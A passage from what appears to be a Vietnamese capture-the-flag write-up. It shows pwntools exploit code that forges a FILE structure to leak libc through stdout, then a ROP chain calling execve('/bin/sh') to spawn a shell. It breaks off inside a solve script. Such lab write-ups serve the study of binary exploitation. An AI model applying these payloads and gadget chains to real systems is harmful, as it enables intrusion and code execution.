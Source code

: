 
```python 
# set up fake_file

fake_file = p64(0xfbad1800) # overwrite _flag to 0xfbad1800

fake_file += p64(0x403fe8)*4 #  overwrite _IO_read_ptr,  _IO_read_end, _IO_read_base, _IO_write_base to the setvbuf@got.plt that have libc

fake_file += p64(0x403fe8 +0x50)*4 # overwrite _IO_write_ptr, _IO_write_end, _IO_buf_base, _IO_buf_end to 0x403fe8 + 0x50 (it will leak 0x50 byte)
```

- có được offset thì ta sẽ overwrite stdout ptr thành fake_file như trên 

```python 
# now rbp = _IO_2_1_stderr_+96 (libc) , we can overwrite important address to the fake_fil and we will have libc

payload = b'\x00'*32 + p64(exe.bss()+0x100) + p64(exe.sym['main']+42)+b'\x00'*112 + fake_file
p.sendline(payload)
```

- lúc này call puts sẽ trả về 0x50byte, bao gồm cả libc => leak libc 

![image](https://github.com/gookoosss/CTF/assets/128712571/47c49ead-518b-49bc-87a0-55c513c191c0)


- có được libc rồi ta sử dụng ret2ROPchain để get shell 

```python 
poprdi = libc.address + 0x000000000002a3e5
poprsi = libc.address + 0x000000000002be51
poprdx = libc.address + 0x000000000011f497
poprax = libc.address + 0x0000000000045eb0
syscall = libc.address + 0x0000000000029db4

payload = b'a'*32+b'b'*8+p64(poprdi)+p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(poprsi)+p64(0)+ p64(poprdx) + p64(0) + p64(0) + p64(poprax)+p64(0x3b)+p64(syscall)
p.sendline(payload)
``` 

![image](https://github.com/gookoosss/CTF/assets/128712571/463fc45f-79de-406f-b89c-522446a9d840)


- 1 chall khá lạ và khó khăn đấy chứ

## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


p = process([exe.path])

gdb.attach(p, gdbscript = 
"""
b*0x00000000004011bb
b*0x00000000004011c6
c
```